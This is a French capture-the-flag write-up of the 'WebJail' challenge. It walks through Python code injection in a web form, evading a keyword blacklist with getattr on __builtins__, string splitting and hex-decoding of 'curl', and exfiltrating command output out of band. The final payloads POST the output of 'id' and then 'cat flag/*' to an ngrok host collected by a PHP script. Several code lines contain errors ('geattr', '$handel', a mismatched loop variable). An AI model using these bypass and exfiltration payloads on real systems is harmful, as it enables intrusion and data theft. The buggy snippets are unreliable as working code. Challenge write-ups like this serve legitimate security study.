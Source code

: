 # WebJail

## Solution

- Le challenge nous fournit une page qui nous offre la possibilité d'exécuter des commandes via un formulaire.
- Note, les données de formulaire sont représentées de la manière suivante: ``command=rand&execute=Execute``
<br/>

![image](https://user-images.githubusercontent.com/74382279/157317880-896d7863-c7bd-4384-8bc6-b6ae7b3081a3.png)

- J'essaye d'envoyer une commande Python: ``print(1)``, mais aucun résultat. Je suppose donc qu'on doit jouer avec la requête pour trouver le bon point d'entrée.<br/>
- Pour ce faire je teste plusieurs techniques d'escape, quand finalement j'obtiens un résultat différent avec la commande suivante: ``);print(1)#``

![image](https://user-images.githubusercontent.com/74382279/157317785-2baf2def-ea0a-48e6-9e94-1079e55cc2a7.png)

- L'idée est d'importer la lib ``os`` pour exécuter des commandes Bash.  J'importe la lib ``os`` pour exécuter ``id``: ``);import os;os.popen('id').read()#``.
- Malheur, j'obtiens la réponse ``Blocked``. Je pars du principe que le chall contient un filtre qui match plusieurs fonctions Python, notamment ``read()``.
<br/>

![image](https://user-images.githubusercontent.com/74382279/157318532-29ad4480-d328-4db3-afcd-5042f5be7e0e.png)

- Je vais devoir builtin des fontions à partir de la class ``__builtins__``.
- La méthode ``getattr()`` renvoie la valeur de l'attribut nommé d'une class. S'il n'est pas trouvé, il renvoie la valeur par défaut fournie à la fonction.
- ``);geattr(__builtins__,'__imp''ort__')('o''s').popen('id')#``, par défaut j'utilise une méthode de concaténation pour éviter de faire trigger la commande par le filtre.
- N'oublions pas que la méthode ``read()`` n'est pas acceptée. Dans ce contexte on est supposé d'envoyer la requête en stdout vers un serveur web qu'on hébergera localement pour recept les données ``POST``. Tout ça ``OOB`` (Out of band). Les données ``OOB`` sont transférées via un flux indépendant du flux de données principal dans la bande.
- J'utilise Wampserv comme hébergeur local. First of all je script la fonction suivante en ``PHP``:

```php
<?php

if(isset($_POST["data"]) && !empty($_POST["data"])) {
  $handle = fopen("data.txt", "a+");
  fwrite($handel, $_POST["data"] . "\n");
  fclose($handle);
}

echo file_get_contents("data.txt");

?>
```

- J'héberge le fichier ``PHP`` dans le dossier ``/tmp``. Comme tunnel http j'utilise ``ngrok``: ``ngrok http 80``.
- J'ai maintenant mon lien, que je peux exploiter pour recept les données.
- Je reviens à la base, mais cette fois-ci en utilisant ``curl`` pour renvoyer une requête ``POST``: ``);geattr(__builtins__,'__imp''ort__')('o''s').popen('curl\x20-X\x20POST\x20-d\x20\x22data=$(id)\x22\x20https://rand.ngrok.io/tmp')#``.
- J'obtiens ``Blocked``, le filtre a donc trigger une partie de la commande. Ayant la flemme de chercher une alternative à ``curl`` (``wget triggered``). Je teste plusieurs techniques de bypass: ``'CURL'.lower()`` => ``Blocked``. Puis une méthode de chiffrement pour déchiffrer dynamiquement et exécuter ``curl``.
```py
>>> ''.join([str(hex(ord(s)))[2:4] for s in 'curl'])
'6375726c'
>> ''.join([chr(int(''.join(c),16)) for s in zip('6375726c'[0::2],'6375726c'[1::2])])
'curl'
```
- Vous avez dû remarquer, j'ai réécrit la fonction ``hex()`` pour éviter une autre fois le filtre (Les méthodes ``bytes.fromhex()`` & ``bytearray.fromhex()`` sont filtrés) . Comme requête finale j'obtiens:
``);geattr(__builtins__,'__imp''ort__')('o''s').popen(''.join([chr(int(''.join(c),16)) for s in zip('6375726c'[0::2],'6375726c'[1::2])])+'\x20-X\x20POST\x20-d\x20\x22data=$(id)\x22\x20https://rand.ngrok.io/tmp')#``.
- Le serveur me renvoit bien la réponse:
<br/>

![image](https://user-images.githubusercontent.com/74382279/157323813-016de65c-4062-467f-a1a1-b2747ddee541.png)

``);geattr(__builtins__,'__imp''ort__')('o''s').popen(''.join([chr(int(''.join(c),16)) for s in zip('6375726c'[0::2],'6375726c'[1::2])])+'\x20-X\x20POST\x20-d\x20\x22data=$(cat flag/*)\x22\x20https://rand.ngrok.io/tmp')#``

``flag{xxx}``

- J'ai bien aimé l'approche du challenge. Je tiens à préciser que plusieurs techniques d'importation de la class ``__builtins__`` étaient filtrés:
```py
__builtins__.__import__("os").system("ls")
__builtins__.__dict__['__import__']("os").system("ls")
```
- Le module préimporté ``reload()`` était match. La variable ``__class__`` pareil.
- Je suis donc parti du principe que je devais utiliser ``getattr()``.
- Merci d'avoir lu cette mini-writeup d'un challenge web que j'ai trouvé assez sympa à solve.
